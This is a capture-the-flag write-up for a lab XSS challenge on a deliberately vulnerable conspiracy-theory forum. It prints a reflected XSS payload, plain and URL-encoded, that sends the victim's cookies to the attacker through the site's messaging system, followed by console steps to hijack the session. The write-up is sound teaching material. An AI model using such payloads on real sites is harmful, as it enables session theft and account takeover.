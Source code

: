 # Introduction
This challenge was designed to put into practice in a '*real*' world situation some *client-side web* attacks (20<sup>th</sup> December 2018).

# Challenge Description
This challenge consists to find sensitive information, a *FLAG*, saved in the Lavish's personal account of the [**obxssession**](https://obxssession.seclab.dais.unive.it/) website/platform. 

The challenge takes advantages of the XSS (Cross-Site Scripting) vulnerability. Once we have registered and logged into the website, we will find a messaging system and that’s what we will use to attack Lavish by sending him an ad-hoc URL to get his cookies and then be able to retrieve the *flag*.

The malicious link will use as a baseline an existing link (available on the `<REDACTED> Theorie` section/page) that uses a `GET` request, in which we will modify one of the request fields with a `'script'` tag which, using the jQuery library, it will sends in our personal inbox a message containing the Lavish's cookies (using the website messaging system). 

Once we have done all of this it will be enough to set the Lavish's cookies from the browser and we will be authenticated (logged in) into the system as Lavish.

## Original Description
>[**Obxssession**](https://obxssession.seclab.dais.unive.it/) is a prominent website to discuss conspiracy theories. Everyone knows about chemtrails, the New World Order, Illuminati, Area 51, 9/11 facts, HAARP experiments and how governments control us using vaccination and radio frequency identification chips implanted in our bodies. But this is nothing, Lavish discovered a disconcerting truth that could have a colossal impact on people all over the World. He spent sleepless nights thinking about this secret, feeling a never experienced pressure against his chest without knowing what to do... but in the end he decided to lock it away, since revealing the truth may drastically change the World as we know it today.
>
>We understand the struggling he is suffering, but at the same time we strongly believe that people have the right to know, no matter what the consequences will be. We ask you, elite hackers, to login into Lavish's private area and report us anything you may find there. The World destiny is in your hands.
>
>Hints:
>* Lavish frequently visits links sent to his inbox (just 1 link per message is fine)
>* Since he is a bit paranoid about visiting random links, he is behind a firewall that prevents him to open links outside the obxssession website: https://obxssession.seclab.dais.unive.it/
>* The message system does not render html (even links), but lavish loves to visit URLs anyway

# Solution
To perform the previously described attack you just need to:

1. Create an account in the [**obxssession**](https://obxssession.seclab.dais.unive.it/) platform;
2. Login into the website;
3. Create and send a new message composed as follow:
    * **To**: Lavish
    * **Subject**: any string with at least 5 characters
    * **Message**: Attach the following link encoded (the `receiver` field is set to `'8'` because it was my account ID number, so you just need to change it with you current ID): `https://obxssession.seclab.dais.unive.it/error?m=theory%20not%20found&p=<script>$.post( "https://obxssession.seclab.dais.unive.it/send", { receiver : "8", subject : "These should be the Lavish's cookies", contents : document.cookie } );</script>`

   **Encoded version**:  `https://obxssession.seclab.dais.unive.it/error?m=theory%20not%20found&p=%3Cscript%3E%24.post(%22https%3A%2F%2Fobxssession.seclab.dais.unive.it%2Fsend%22%2C%20%7B%20receiver%20%3A%20%228%22%2C%20subject%20%3A%20%22These%20should%20be%20the%20Lavish's%20cookies%22%2C%20contents%20%3A%20document.cookie%20%7D%20)%3B%3C%2Fscript%3E`

4. Visit your `'Inbox'` page;
5. Copy the Lavish’s message (his cookies);
6. Open the developer console of the browser (`Inspect element` —> `Console`);
7. Change your cookies with the Lavish’s one. To do that you just need to type:
    * `document.cookie="session= … <Lavish’s cookies> …"`
    * Now you’re authenticated as `Lavish`, so to get the *flag* you need to go in his `profile` page

# Possible Fixes
A possible solution is to not allowing sending links/URLs through the messaging system or at least to check them with a list of well-known pages (white-list) in a conjunction with some input validation (like `htmlspecialchars`).
